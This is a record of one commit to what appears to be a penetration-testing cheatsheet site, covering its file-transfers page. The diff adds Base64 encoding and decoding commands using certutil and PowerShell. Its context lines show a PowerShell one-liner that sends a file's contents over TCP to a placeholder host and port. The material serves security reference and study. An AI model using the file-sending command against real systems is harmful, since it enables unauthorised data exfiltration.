

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/file-transfers.md, in a window 1280 px wide. Shown: the top 509 px of the page, without its empty margins (166-1108 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Added b64 encoding/decoding for Windows

````diff
--- a/_topics/file-transfers.md
+++ b/_topics/file-transfers.md
@@ -17,3 +17,15 @@ Powershell Send File to Netcat
 ```shell
 $h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
 ```
+
+Base 64 Encoding
+```shell
+certutil -encode <input> <output>
+[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
+```
+
+Base 64 Decoding
+```shell
+certutil -decode <input> <output>
+[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
+```
````
